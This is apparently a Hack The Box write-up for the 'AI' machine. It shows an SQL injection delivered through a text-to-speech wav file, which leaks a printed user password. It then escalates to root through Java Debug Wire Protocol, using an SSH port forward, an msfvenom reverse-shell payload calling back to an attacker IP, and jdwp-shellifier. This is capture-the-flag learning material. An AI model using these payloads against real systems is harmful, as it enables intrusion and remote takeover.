 ```yaml
---
title: AI
published: true
categories: [box, sqli, linux]
---
```

![](/htb_box/img/2020-02-28-08-35-31.png)
# AI 
- [AI](#ai)
  - [Enumeration](#enumeration)
  - [Exploits - Work](#exploits---work)
  - [PrivEsc](#privesc)
## Enumeration

Exploring the website there is a page with an upload a wav file to query. First trying to stego a wav file which gave nothing I gave tts a try. Text to Speech synth is used for vehicles, mobile phones, and IOT devices like Alexa.
Trying numerous websites, https://www.text2speech.org/ which gave inconsistent results I installed festival which gave better results.  

## Exploits - Work
Using basic sqli in text the file is converted to a wav file

    Open single quote, join,SELECT, password, from, users, comment database
    text2wave dbstuff -o might.wav -scale 1.2
    alexa - H,Sq9t6}a<)?q93_

![](/htb_box/img/2019-11-18-11-23-17.png)

Using the credentials I ssh into the box to get user.

## PrivEsc

Basic enumeration reveals root is running a tomcat instance using java debug wire protocol which is exploitable. 

https://ioactive.com/hacking-java-debug-wire-protocol-or-how/

First due to the jdwp being localhost I had to port forward 

    ssh -N -L 8000:127.0.0.1:8000 alexa@10.10.10.163

With that and the script I execute the script changing the method to "java.lang.String.indexOf"

In order to get a shell I must first generate an elf venom like so...

    msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.16.99 LPORT=4681 -f elf -o crypto4681

Wget this to the tmp directory on AI chmod +x to make it executable, start a listener locally, and then run the exploit

    python jdwp-shellifier.py -t 127.0.0.1 --break-on "java.lang.String.indexOf" --cmd "/tmp/crypto4681"

![](/htb_box/img/AI.md.png)

